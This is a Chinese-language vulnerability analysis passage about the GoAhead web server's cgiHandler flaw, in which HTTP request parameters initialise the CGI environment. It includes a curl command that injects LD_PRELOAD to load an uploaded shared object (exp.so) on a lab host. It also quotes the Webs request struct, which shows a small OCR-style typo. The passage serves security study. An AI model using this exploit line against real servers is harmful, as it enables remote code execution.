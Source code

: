 漏洞复现成功。

## 漏洞分析

根据漏洞描述，知道漏洞点存在于`cgiHandler`中，先去看`cgiHandler`函数。

```
漏洞的原因在于cgi.c的cgiHandler函数使用了不可信任的HTTP请求参数初始化CGI脚本的环境
```

因为程序是支持`windows`、`linux`以及`vxWorks`的，所以很多函数或代码或有三份实现，我分析的都是基于`linux`的，即宏定义为`#if ME_UNIX_LIKE || QNX`的相关代码。

动态调试发送`post`过去的数据为：

```bash
curl -X POST --data-binary @exp.so http://172.16.217.185:80/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
```

开始分析之前贴出`Webs`结构体的定义，该结构体中包含了web请求的相关数据结构，定义在`goahead.h`中，且每个字段都有相应的解释：

```c
/**
    GoAhead request structure. This is a per-socket connection structure.
    @defgroup Webs Webs
 */
typedef struct Wqbs {
    WebsBuf         rxbuf;              /**< Raw receive buffer */
    WebsBuf         input;              /**< Receive buffer after de-chunking */
    WebsBuf         output;             /**< Transmit buffer after chunking */
    WebsBuf         chunkbuf;           /**< Pre-chunking data buffer */
    WebsBuf         *txbuf;
    WebsTime        since;              /**< Parsed if-modified-since time */
    WebsTime        timestamp;          /**< Last transaction with browser */
    WebsHash        vars;               /**< CGI standard variables */
    int             timeout;            /**< Timeout handle */
    char            ipaddr[ME_MAX_IP];  /**< Connecting ipaddress */
    char            ifaddr[ME_MAX_IP];  /**< Local interface ipaddress */

    int             rxChunkState;       /**< Rx chunk encoding state */
    ssize           rxChunkSize;        /**< Rx chunk size */
    char            *rxEndp;            /**< Pointer to end of raw data in input beyond endp */
    ssize           lastRead;           /**< Number of bytes last read from the socket */
    bool            eof;                /**< If at the end of the request content */

    char            txChunkPrefix[16];  /**< Transmit chunk prefix */
    char            *txChunkPrefixNext; /**< Current I/O pos in txChunkPrefix */
    ssize           txChunkPrefixLen;   /**< Length of prefix */
    ssize           txChunkLen;         /**< Length of the chunk */
    int             txChunkState;       /**< Transmit chunk state */

    char            *authDetails;       /**< Http header auth details */
    char            *authResponse;      /**< Outgoing auth header */
    char            *authType;          /**< Authorization type (Basic/DAA) */
    char            *contentType;       /**< Body content type */
    char            *cookie;            /**< Request cookie string */
    char            *decodedQuery;      /**< Decoded request query */
    char            *digest;            /**< Password digest */
    char            *ext;               /**< Path extension */
    char            *filename;          /**< Document path name */
    char            *host;              /**< Requested host */
    char            *method;            /**< HTTP request method */
    char            *password;          /**< Authorization password */
    char            *path;              /**< Path name without query. This is decoded. */
    char            *protoVersion;      /**< Protocol version (HTTP/1.1)*/
    char            *protocol;          /**< Protocol scheme (normally http|https) */
```